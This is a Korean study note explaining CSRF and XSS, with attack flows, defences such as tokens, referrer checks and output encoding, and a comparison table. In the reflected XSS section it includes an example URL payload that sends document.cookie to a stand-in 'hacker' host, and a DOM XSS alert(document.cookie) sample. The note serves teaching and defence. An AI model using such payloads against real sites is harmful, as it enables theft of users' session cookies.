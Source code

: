 # **CSRF & XSS**

<br>

## **Cross Site Request Forgery; CSRF**

- 웹사이트 취약점 공격
- 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 하는 공격
- 자동 로그인이 되어있는 경우 로그인된 사용자의 권한을 사용하는 방식

<br>

### **_공격 방식_**

1. 공격자는 CSRF 스크립트가 포함된 게시물을 전송

2. 관리자는 공격자가 등록한 CSRF 스크립트가 포함된 게시물을 확인

3. 게시물을 열람하면 **관리자의 권한**으로 공격자가 원하는 CSRF 스크립트 요청 발생

4. 스크립트가 실행되어 관리자 및 사용자의 피해 발생

<br>

### **_방어 기법_**

- **Referrer 체크**
  - 백앤드에서 요청의 referrer를 확인하여 도메인이 일치하는지 검증
  - 일반적인 경우 referrer 검증만으로 대부분의 CSRF 공격 방어 가능
- **GET/POST 요청 구분**
  - POST
- **Security Token 사용**

  - Referrer 검증이 불가할 때의 대안
  - 서버에서 Hash로 암호화된 token을 발급
  - 사용자는 매 요청마다 token을 함께 보내어 서버가 검증

- **Double Submit Cookie 검증**

  - Security token의 한 종류
  - 세션을 사용할 수 없는 환경에서 사용
  - JS에서 타 도메인의 쿠키 값을 확인/수정하지 못하는 것을 이용한 기법
  - token을 요청 파라미터와 헤더에 저장하여 서버로 전송
  - 서버에서 쿠키와 파라미터의 토큰 값이 일치하는지 검사

- **추가인증 수단 사용**
  - 추가 인증 수단을 거쳐 테스트를 통과하지 못하면 요청 거부
  - ex) CAPTCHA (구글 그림 선택, 그림에 보이는 글씨 쓰기), 2차 비밀번호

---

<br><br>

## Cross Site Scripting; XSS
- 웹 애플리케이션 취약점 공격
- 관리자가 아닌 권한 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법
- 사용자로부터 입력받은 값을 제대로 검사하지 않고 사용할 경우 나타남
- 해커가 사용자의 쿠키, 세션 정보를 탈취하거나 자동으로 비정상적인 기능을 수행하게 함
- 시스템 관리자 권한을 탈취하거나 악성 코드 다운로드


<br>

### **_공격 방식_**
- Persistent(Stored) XSS
  - 지속적으로 피해를 입히는 XSS 공격
  - 해커가 XSS 취약점이 있는 곳에 악성 스크립트 삽입
  - 악성 스크립트가 DB에 저장
  - 악성 스크립트가 삽입된 페이지를 열람한 사용자는 쿠키를 탈취당하거나 다른 사이트로 리다이렉션 되는 공격 받음

<br>

- Reflected XSS
  - 서버가 입력 받은 값을 포함해 응답할 때 악성 스크립트 실행
  - 주로 URL등을 클릭하게 유도하여 클릭 시 악성 스크립트 실행되며 공격
  - 예시 공격 코드 `http://testweb?search=<script>location.href("http://hacker/cookie.php?value="+document.cookie);</script>`

<br>

- DOM based XSS
  - 사용자가 악의적인 스크립트가 포함된 URL을 요청하게 되어 브라우저를 해석하는 단계에 발생하는 공격 
  - 스크립트에 의해 클라이언트 측 코드가 원래 의도와 다르게 실행
  - 다른 공격과 다른 점은 서버측에서 탐지가 어려움
    - #이라는 특수문자를 사용하면 서버에 전송되지 않기 때문
    - `http://www.some.site/page.html#defaiult=<script>alert(document.cookie)</script>`


<br><br>

### **_방어 기법_**
- 데이터 입력 전에 데이터 길이, 형식 등 검사
- 사용자가 입력한 값 유효성 검증
  - 입력 값 제한
    - ex) page 값을 숫자만으로 허용
  - 입력 값 치환
    - \<script\>를 문자 참조로 필터링하고 서버에서 브라우저로 전송 시 문자를 인코딩
    - ex) '<'값을 '\&lt;'로 치환 (사용자는 \<script\>로 보이지만 HTML문서에서는 스크립트로 해석 X)
- 스크립트 영역에 출력 자제
  - 이벤트 핸들러 영역에 스크립트가 삽입되는 경우 보호기법을 우회할 수 있으므로 사용자 입력을 출력하는 것을 최대한 자제
- PLURA XSS 필터 사용
  - 필터 사용 시 XSS 공격 발생하면 공격자의 IP를 차단함
- 웹 방화벽 사용
  - 웹 방화벽은 웹 공격에 특화되어 XSS공격뿐만 아니라 각종 Injection 공격을 방어


---

<br><br>

## CSRF와 XSS의 차이점
||XSS|CSRF|
|:---:|:---:|:---:|
|공격대상|Client|Server|

- XSS는 사이트변조나 백도어를 통해 클라이언트에 대한 악성공격
- CSRF는 요청을 위조하여 사용자의 권한을 이용해 서버에 대한 악성공격
